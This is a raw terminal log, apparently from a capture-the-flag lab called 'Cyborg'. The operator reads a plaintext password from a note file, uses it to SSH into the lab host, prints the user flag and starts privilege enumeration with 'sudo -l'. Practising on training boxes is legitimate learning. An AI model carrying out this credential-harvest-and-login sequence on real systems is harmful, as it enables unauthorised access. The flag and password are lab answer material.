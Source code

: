 ./.config/sublime-text-3/Cache/ShellScript/Shell-Unix-Generic.sublime-syntax.cache
./.config/sublime-text-3/Cache/ShellScript/commands-builtin-shell-bash.sublime-syntax.cache
./.config/sublime-text-3/Cache/TCL/HTML (Tcl).sublime-syntax.cache
./.config/sublime-text-3/Cache/TCL/Tcl.sublime-syntax.cache
./.config/sublime-text-3/Cache/Text/Plain text.tmLanguage.cache
./.config/sublime-text-3/Cache/Text/Plain text.tmLanguage.rcache
./.config/sublime-text-3/Cache/Textile/Textile.sublime-syntax.cache
./.config/sublime-text-3/Cache/XML/XML.sublime-syntax.cache
./.config/sublime-text-3/Cache/YAML/YAML.sublime-syntax.cache
./.config/sublime-text-3/Local/Auto Save Session.sublime_session
./.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
./.profile
./Desktop/secret.txt
./Documents/note.txt
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mCyborg [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mhome [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1malex [0;38;5;240;49;22m [0mcat ./Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!"
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mCyborg [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mhome [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1malex [0;38;5;240;49;22m [0mcat ./Desktop/secret.txt[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K[K./Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mCyborg [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mhome [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1malex [0;38;5;240;49;22m [0mssh alex@$IP
The authenticity of host '10.10.255.20 (10.10.255.20)' can't be established.
ECDSA key fingerprint is SHA256:uB5ulnLcQitH1NC30YfXJUbdLjQLRvGhDRUgCSAD7F8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.255.20' (ECDSA) to the list of known hosts.

alex@10.10.255.20's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

]0;alex@ubuntu: ~[01;32malex@ubuntu[00m:[01;34m~[00m$ ls
[0m[01;34mDesktop[0m  [01;34mDocuments[0m  [01;34mDownloads[0m  [01;34mMusic[0m  [01;34mPictures[0m  [01;34mPublic[0m  [01;34mTemplates[0m  [01;32muser.txt[0m  [01;34mVideos[0m
]0;alex@ubuntu: ~[01;32malex@ubuntu[00m:[01;34m~[00m$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
]0;alex@ubuntu: ~[01;32malex@ubuntu[00m:[01;34m~[00m$ sudi[Ko -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
